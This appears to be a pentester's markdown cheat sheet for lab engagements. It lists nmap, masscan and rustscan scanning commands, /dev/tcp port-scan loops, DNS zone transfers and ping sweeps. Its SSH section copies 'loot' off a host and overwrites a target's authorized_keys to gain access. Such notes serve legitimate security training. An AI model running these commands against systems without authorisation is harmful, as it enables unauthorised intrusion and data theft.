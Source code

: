 
## PT initial foothold

**Light way scan**
1. `ports=$(nmap -p- --min-rate=1000 -T4 192.168.134.126 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`
2. `echo $ports`
3. `nmap -p$ports -sC -sV 192.168.134.126 -oN nmap_results`
   - `sU` for UDP, `sT` for TCP

**More scans**
- `nmap -T4 -p- --min-rate=1000 -sV -sC -vvv -oN nmap_results 192.168.134.114 -Pn`
- `for i in {1..65535}; do (echo > /dev/tcp/172.17.0.1/$i) >/dev/null 2>&1 && echo $i is open; done`
- `dig @192.168.212.165 AXFR heist.offsec`
- `dnsenum 192.168.212.165`
- `autorecon 192.168.228.109`
- `rustscan --ulimit 5000 192.168.220.131`
- `nikto -host=http://www.targetcorp.com -maxtime=30s`

**Fast way**
1. `masscan -p1-65535 10.10.10.93 --rate=1000 -e tun0 > ports`
2. `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
3. `nmap -Pn -sV -sC -p$ports 10.10.10.93`

**Checklist**
- Top 100 ports: `TCP(100;7,9,13,21-23,25-26,37,53,79-81,88,106,110-111,113,119,135,139,143-144,179,199,389,427,443-445,465,513-515,543-544,548,554,587,631,646,873,990,993,995,1025-1029,1110,1433,1720,1723,1755,1900,2000-2001,2049,2121,2717,3000,3128,3306,3389,3986,4899,5000,5009,5051,5060,5101,5190,5357,5432,5631,5666,5800,5900,6000-6001,6646,7070,8000,8008-8009,8080-8081,8443,8888,9100,9999-10000,32768,49152-49157)`
- Check always the source code for comments and secrets
  - maybe a functionality has been disabled and can be renabled
  - maybe you can find secrets

**If you find an unkwon service, try again this command**
- `sudo nmap -sC -sV -p PORTNUMBER -sU 10.10.10.116`

**Other ways**
- `for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done`
- `for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done`

## SSH notes

- `scp username@remoteHost:/remote/dir/file.txt /local/dir/`
  - `scp Administrator@10.10.210.84:"/C:/Users/Administrator/Downloads/20230824142942_loot.zip" "/home/kali/Documents/engagements/TryHackMe/Post-Exploitation Basics/loot.zip"`
- `pscp.exe username@remoteHost:/remote/dir/file.txt d:\`

**ssh exploitation**
- `scp -O /home/kali/Documents/engagements/proving-grounds/Sorcerer/max/authorized_keys max@192.168.240.100:/home/max/.ssh/authorized_keys`
  - `mv /home/kali/Documents/engagements/proving-grounds/Sorcerer/max/ /home/kali/.ssh/id_rsa`
  - https://viperone.gitbook.io/pentest-everything/writeups/pg-practice/linux/sorcerer
